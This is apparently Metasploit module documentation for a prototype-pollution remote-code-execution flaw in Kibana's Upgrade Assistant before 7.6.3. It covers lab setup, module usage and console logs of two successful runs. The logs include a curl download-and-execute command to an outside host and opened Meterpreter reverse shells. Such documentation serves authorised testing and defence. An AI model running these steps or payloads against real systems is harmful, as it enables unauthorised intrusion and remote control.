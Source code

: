 ## Vulnerable Application

Kibana before version 7.6.3 suffers from a prototype pollution bug within the
Upgrade Assistant. By setting a new constructor.prototype.sourceURL value we're
able to execute arbitrary code.
Code execution is possible through two different ways. Either by sending data
directly to Elastic, or using Kibana to submit the same queries. Either method
enters the polluted prototype for Kibana to read.

Kibana will either need to be restarted, or collection happens (unknown time) for
the payload to execute. Once it does, cleanup must delete the .kibana_1 index
for Kibana to restart successfully. Once a callback does occur, cleanup will
happen allowing Kibana to be successfully restarted on next attempt.

### Install

A docker version of Kibana and Elastic are required. Both can be run together in a working mode via:

```
docker run -it --rm --name es01 -e "discovery.type=single-node" -p 9200:9200 docker.elastic.co/elasticsearch/elasticsearch:7.6.2
docker run -it --rm --name kib01 --link es01:elasticsearch -p 5601:5601 docker.elastic.co/kibana/kibana:7.6.2
```

To restart Kibana (easier during exploitation) issue the following command: `docker kill kib01; docker start kib01`

To wipe the boxes: `docker kill kib01; docker kill es01; docker container rm es01; docker container rm kib01`

### Error Logs

The following error logs will appear when the payload executes. The logs seem to repeat about every half second.

```
 error  [11:59:41.805] [warning][process] UnhandledPromiseRejectionWarning: TypeError: this._tasks[taskName] is not a function
    at Timeout._interval.setInterval [as _onTimeout] (/usr/share/kibana/node_modules/oppsy/lib/index.js:42:49)
    at ontimeout (timers.js:436:11)
    at tryOnTimeout (timers.js:300:5)
    at listOnTimeout (timers.js:263:5)
    at Timer.processTimers (timers.js:223:10)
    at emitWarning (internal/process/promises.js:97:15)
    at emitPromiseRejectionWarnings (internal/process/promises.js:143:7)
    at process._tickCallback (internal/process/next_tick.js:69:34)
 error  [11:59:41.807] [warning][process] TypeError: this._tasks[taskName] is not a function
    at Timeout._interval.setInterval [as _onTimeout] (/usr/share/kibana/node_modules/oppsy/lib/index.js:42:49)
    at ontimeout (timers.js:436:11)
    at tryOnTimeout (timers.js:300:5)
    at listOnTimeout (timers.js:263:5)
    at Timer.processTimers (timers.js:223:10)
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell as the kibana user.

## Options

## Scenarios

### Kibana 7.6.2 on Docker (Elastic Target)

In this scenario, the cleanup process within Kibana kicked automatically, so no reboot of the host/service was required.

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > 
msf6 exploit(linux/http/kibana_upgrade_assi
stant_telemetry_rce) > rexploit
[*] Reloading module...

[*] Command to run on remote host: curl -so ./YFjALImGlTI http://1.1.1.1:8080/Hg3DGEu9GqlWD06kh4AzFg; chmod +x ./YFjALImGlTI; ./YFjALImGlTI &
[*] Fetch Handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
[*] Client 172.17.0.3 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:48674) at 2023-10-06 08:32:42 -0400
[*] Removing telemetry data to prevent Kibana locking on restart

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Kibana 7.6.2 on Docker (Kibana Target)

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set target 1
target => 1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set rport 5601
rport => 5601
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Command to run on remote host: curl -so ./hzeCuLxAxx http://1.1.1.1:8080/Hg3DGEu9GqlWD06kh4AzFg; chmod +x ./hzeCuLxAxx; ./hzeCuLxAxx &
[*] Fetch Handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
```

After several minutes, the host was rebooted instead of waiting for the cleanup process to happen. Docker host reboot was done
with the following command if daemonized: `docker kill kib01; docker start kib01`

```
[*] Client 172.17.0.3 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:60508) at 2023-10-06 09:48:43 -0400
[-] Cleanup must happen on the Elastic Database for Kibana to start. You need to DELETE /.kibana_1

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
